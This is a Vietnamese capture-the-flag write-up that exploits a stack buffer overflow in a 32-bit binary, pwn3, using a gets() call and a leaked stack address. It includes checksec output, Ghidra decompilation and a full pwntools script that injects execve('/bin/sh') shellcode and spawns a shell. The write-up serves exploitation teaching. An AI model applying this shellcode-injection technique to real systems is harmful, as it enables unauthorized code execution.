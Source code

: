 Dùng file và checksec kiểm tra:

```
$	file pwn3
pwn3: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6ea573b4a0896b428db719747b139e6458d440a0, not stripped

$	checksec pwn3
Arch:     i386-32-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX unknown - GNU_STACK missing
PIE:      PIE enabled
Stack:    Executable
RWX:      Has RWX segments
```

File 32 bits, arch i386 và PIE có kích hoạt  
Thấy stack có thể thực thi -> nghĩ ngay đến phương pháp ret2shellcode  
Sử dụng ghidra để reverse file, thấy hàm echo đã mác lỗi buffer overflow:  

```
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

void echo(void)

{
  char local_12e [294];
  
  printf("Take this, you might need it on your journey %p!\n",local_12e);
  gets(local_12e);
  return;
}
```

Hàm echo in ra địa chỉ trong stack của mảng local_12e, sau đó nhận input:

```
$	./pwn3
Take this, you might need it on your journey 0xffc0e9ae!
```

Chúng ta sẽ đẩy shellcode thực thi execve("/bin/sh"), sau đó ghi đè địa chỉ save rip trong stack của hàm echo bằng địa chỉ đã bị leak để thay đổi luồng của chương trình  
Ý tưởng đã có, giờ viết code khai thác:  

```
#!/usr/bin/python3
from pwn import *
exe = ELF("./pwn3", checksec = False)
con = process("./pwn3")
shellcode = asm(
    '''
    mov eax, 0x0b
    push 6845231 ;u32("/sh\0")
    push 1852400175 ;u32("/bin")
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    int 0x80
    ''', arch = 'i386')
con.recvuntil(b"journey ")
leak = con.recvline().decode("utf-8")
leak = int(leak.strip("!\n"), 16)
print(hex(leak))
payload = shellcode 
payload = payload.ljust(302)
payload += p32(leak)
con.sendline(payload)
con.interactive()
```

Cho chạy code và lấy được flag
